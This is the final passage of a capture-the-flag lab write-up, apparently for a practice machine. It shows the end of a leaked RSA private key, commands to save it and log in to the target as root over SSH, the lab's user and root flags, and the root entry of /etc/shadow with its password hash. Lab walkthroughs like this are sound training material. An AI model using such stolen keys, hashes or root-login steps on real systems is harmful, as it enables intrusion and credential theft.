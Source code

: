   ```
    UnRnrnBfCSZdj0X3CcrsyI8bHoblSn0AgbN6z8dzYtrrPmYA4ztAR/xkIP/Mog1a
    vmChAoGBAKcW+e5kDO1OekLdfvqYM5sHcA2le5KKsDzzsmboGEA4ULKjwnOXqJEU
    6dDHn+VY+LXGCv24IgDN6S78PlcB5acrg6m7OwDyPvXqGrNjvTDEY94BeC/cQbPm
    QeA60hw935eFZvx1Fn+mTaFvYZFMRMpmERTWOBZ53GTHjSZQoS3G
    -----END RSA PRIVATE KEY-----
  ```
- Step 6: Save the private key in file named as `root_id_rsa`.


## Root Shell
- Step 1: Change file permission of `root_id_rsa` to 600. Command: `chmod 600 root_id_rsa`.
- Step 2: Get root shell. Command: `ssh root@10.10.11.176 -i root_id_rsa`.
- Step 3: Get Root flag.

## Flag
- User Flag: 2ee75a13b82e96b7e9fc22f98354bee7
- Root Flag: e00502242bd6aa62f8baf14f63c57ed1

## /etc/shadow
`root:$6$CGK4O3ut$hQTwfTrsIVAL2.wTf.mNzkpipITwSLVjqTw5bN2bnXXQi8QU4lnrlnrBMZ87bzMMQEyuxnlLJIMGhKIFjZBFn/:19130:0:99999:7:::`

<h1>Completed</h1>